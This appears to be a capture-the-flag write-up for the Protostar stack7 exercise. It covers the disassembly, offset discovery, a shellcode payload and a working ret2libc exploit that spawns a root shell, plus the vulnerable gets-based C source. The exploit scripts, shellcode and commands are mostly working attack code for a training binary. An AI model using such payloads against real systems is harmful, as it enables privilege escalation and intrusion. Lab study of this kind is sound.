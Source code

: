 # Stack 6

## Problem

Here we see that now the 

```gdb
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
```

## Idea and Attack process

We try to find the offset for the target by injecting the string below. Based on the segmentation fault message we can deduce that the offset needed is 80bytes.

```gdb
./stack7
>>>input path please: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
>>Program received signal SIGSEGV, Segmentation fault.
>>0x37634136 in ?? ()
```

```python
import struct
filler = "1" * 80
addr_hop = struct.pack("I", 0x08048544)
addr_code = struct.pack("I", 0xbffffcb4+256)
nop = "\x90"*528
code =  "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

print filler+addr_hop+addr_code+nop+code
```

We run the code below and we realise that the exploit is not working even after increase the nop sled. We try to find another way perhaps ret2libc.

```bash
vim stack7_py.py
python stack7_py.py > /tmp/payload
(python stack7_py.py; cat) | ./stack7
```

Lets try to find the address of the lib-c. We use the following commands to obtain the necessary information.

```gdb
info proc map
>>>process 6855
>>>cmdline = '/opt/protostar/bin/stack7'
>>>cwd = '/opt/protostar/bin'
>>>exe = '/opt/protostar/bin/stack7'
>>>Mapped address spaces:
>>>
>>>        Start Addr   End Addr       Size     Offset objfile
>>>         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
>>>         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
>>>        0xb7e96000 0xb7e97000     0x1000          0
>>>        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
>>>        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
>>>        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
>>>        0xb7fd9000 0xb7fdc000     0x3000          0
>>>        0xb7fde000 0xb7fe2000     0x4000          0
>>>        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
>>>        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
>>>        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
>>>        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
>>>        0xbffeb000 0xc0000000    0x15000          0           [stack]

p system
>>>$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
p exit
>>>$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

We note that the base address of lib-c is `0xb7e97000`.

We identify the location of the `system` command in lib-c to invoke it during the attack. The `exit` command is used so that the attack exits gracefully once we exit the shell. The `system` command takes in parameters to run, we want to pass in the `\bin\sh` command to system, one way is to use the address in lib-c that contains it. Through checking lib-c, we find the offset to the string and use it with the base address to obtain the pointer to the string. We should note that the structure of the stack is as follow below which we are trying to emulate. The system call will obtain the parameter 8bytes below ebp, which is past the old ebp and the return address.

```
function address (system call)
return address (exit call)
parameters (/bin/sh)
```

With the plan in place, we create the following script and run it.

```python
import struct

filler = "1" * 80
addr_hop = struct.pack("I", 0x08048544)
libc_start = 0xb7e97000
string_offset = 0x11f3bf
bin_addr = struct.pack("I", libc_start + string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

print filler + addr_hop + system_addr + exit_addr + bin_addr
```

We run the following script, this time since we want to hold the shell open, we pass in the script as such whereby after the `cat` command, we pass a `-` such that the terminal holds the shell open for us to pass in other commands. Reference `cat` command using `man` -> (cat f - g  Output f's contents, then standard input, then g's contents.)

```bash
whoami
>>>user
vim stack7_py.py
python stack7_py.py > /tmp/payload
cat /tmp/payload - | ./stack7
whoami
>>>root
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
